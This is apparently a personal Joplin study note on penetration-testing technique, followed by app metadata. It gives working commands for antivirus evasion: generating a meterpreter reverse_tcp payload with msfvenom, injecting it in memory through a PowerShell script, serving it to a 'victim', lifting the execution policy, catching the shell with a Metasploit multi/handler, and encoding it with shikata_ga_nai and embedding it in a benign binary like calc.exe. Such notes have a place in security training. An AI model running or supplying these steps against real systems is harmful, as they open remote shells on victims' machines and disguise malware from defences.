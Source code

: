 MSFVenom

# <ins>Use In-memory Virtual Allocation and execute payload within the allocated memory</ins>

This is non-detectable by the AV; Uses the in-memory injection

- Find the code in /root/Avevade.ps1
    
- Generate the payload:
    
    - msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.0.4 LPORT=4444 -f powershell
- Paste the payload into the variable 'sc' inside 'Avevade.ps1'
    
- Transfer the file to the victim -
    - python2 -m SimpleHTTPServer 80
- Set the execution policy to unrestricted:
    
    - Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
- On Kali, open handler (See below)
    

<ins>Use the Meterpreter Listener</ins>

Open the metasploit console and use multihandler

> msfconsole
> 
> use multi/handler

Set the payload to what you want, and set the options

> set payload windows/meterpreter/reverse_tcp
> 
> set LPORT 7777
> 
> set LHOST &lt;Kali IP&gt;
> 
> exploit

# Do Encrypted Payload

Usual encoding is x86/shikata\_ga\_nai - very common till AV can detect

> ```
> msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=5555 -f exe -e x86/shikata_ga_nai -i 9 -o meterpreter_encoded.exe
> ```

Embed in a non-malicious file, like calc.exe (can use notepad.exe in windows-binaries)

id: f1cbbe07c0c44adb91ce6010b852b46f
parent_id: c26fa1723bb34bf18d91cd4b533bf7b3
created_time: 2022-01-20T02:10:21.303Z
updated_time: 2022-01-28T03:32:33.916Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2022-01-20T02:10:21.303Z
user_updated_time: 2022-01-28T03:32:33.916Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1